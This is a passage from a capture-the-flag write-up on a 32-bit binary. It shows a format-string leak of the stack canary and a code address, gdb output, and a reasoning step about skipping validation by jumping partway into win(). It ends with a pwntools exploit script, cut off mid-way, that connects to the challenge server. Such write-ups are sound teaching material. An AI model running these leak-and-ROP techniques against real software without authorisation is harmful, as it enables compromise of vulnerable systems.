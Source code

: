 Again, 32bit stack canaries always end in `00` so the 19th stack argument is the canary. The 3rd stack argument looks like a valid address, lets use GDB to see where it leads:

```bash
$ ./pwnme 
How about creating a leak AND smashing a canary AND chaining several functions? %3$08x 
 565d83b5
```

In the other terminal I use gdb:

```bash
$ gdb -p `pidof pwnme`
gdb-peda$ disass 0x565d83b5
Dump of assembler code for function vuln:
   0x565d83a5 <+0>:     endbr32 
   0x565d83a9 <+4>:     push   ebp
   0x565d83aa <+5>:     mov    ebp,esp
   0x565d83ac <+7>:     push   ebx
   0x565d83ad <+8>:     sub    esp,0x44
...
```

Ok so we can leak the address of `vuln()+0x10`. Cool. We can use this.

I found everything else to be the same:

- The offset of the canary in our payload was the same as challenge 7 (24)
- The total payload size is the same as challenge 7 (40)

The rest of the challenge seemed to want us to:

- Create a ROP chain that traversed multiple functions within the binary. These functions were `func1()`, `func2()` and `func3()`.
- Provide each function with an argument that validated.
- Finally jump to `win()` which would validate all the prerequisites.

I found that by just chaining `func1() `and `win()` half way into the win() function, we could bypass the validator. This produced the following exploit:

```python
from pwn import *

local = False

fname = "./pwnme"
hostname = '0.cloud.chals.io'
port = 17140
canary_offset = 24
offset = 40

binary = context.binary = ELF(fname)

if local:
    p = process(fname)
else:
    p = remote(hostname, port)

# Which argument on the stack we need to leak for the canary and base addr.
canary_arg = 19
base_arg = 3

# might be different on remote system
if not local:
    base_arg = 3

p.sendlineafter(b'?', f"%{canary_arg}$08lx%{base_arg}$08lx".encode())
leak = p.recv(16).decode()
canary = int(leak[:8],16)
```